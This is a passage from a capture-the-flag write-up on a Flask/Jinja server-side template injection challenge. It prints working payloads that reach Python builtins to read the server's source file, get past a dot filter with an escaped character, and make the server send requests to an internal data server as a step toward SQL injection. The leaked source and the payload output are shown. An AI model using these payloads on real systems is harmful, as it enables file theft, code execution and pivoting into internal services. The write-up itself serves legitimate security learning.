 Perfect! We'll be using a payload like this to get our flag. Now, it's time to get to work.

### Getting the data server IP

You'll notice in the main server code that the other server's IP is censored. Also, we can't use the code to directly send a request that would inject SQL into the data server, because the contents of our request are stripped to only alphanumeric characters before they're sent over. This means we'll have to figure out the data server IP so we can send requests there ourselves.

Inspired by the payload above, we can type this into the `password` blank to read the contents of `main.py` (note the use of `'\x2e'` to bypass the `.` filter):

```
{{request['application']['__globals__']['__builtins__']['open']('main\x2epy')['read']()}}
```

which returns this:

```
ok thank you for your info i have now sold your password (import sqlite3 from flask import Flask, render_template, render_template_string, redirect, url_for, request import requests; import re; app = Flask(__name__) def alphanumericalOnly(str): return re.sub(r'[^a-zA-Z0-9]', '', str); @app.route('/', methods=['GET', 'POST']) def login(): if request.method == 'POST': username = request.form['username'] password = request.form['password'] if('.' in password): return render_template_string("lmao no way you have . in your password LOL"); r = requests.post('http://172.24.0.8:8080/runquery', json={"username": alphanumericalOnly(username),"password": alphanumericalOnly(password)}); print(r.text); if(r.text == "True"): return render_template_string("OMG you are like so good at guessing our flag I am lowkey jealoussss."); return render_template_string("ok thank you for your info i have now sold your password (" + password + ") for 2 donuts :)"); return render_template("index.html"); @app.before_request def log_request_info():app.logger.warning(f'{request.remote_addr} - {request.headers["X-Real-IP"]} - {request.method} {request.path} |{request.query_string.decode()}| |{request.get_data().decode()}|') ) for 2 donuts :)
```

That doesn't really look like the password we put in, but we have the data server IP now: `http://172.24.0.8:8080/runquery`.

### Injecting SQL into the data server

We can quickly figure out that we can't actually connect to `http://172.24.0.8:8080/runquery` directly, by running the following code locally:

```py
import requests
r = requests.post("http://172.24.0.8:8080/runquery", json={"username":"","password":""})
```

It times out, which means the only way we can inject SQL into the data server is via the main server.

Since in the code, the request is stripped to alphanumeric before being sent over to the data server, we'll want to just use the template injection to send another request over:

```
{{request['application']['__globals__']['__builtins__']['__import__']('requests')['post']('http://172\x2e24\x2e0\x2e8:8080/runquery',json={'username':'','password':''})['text']}}
```

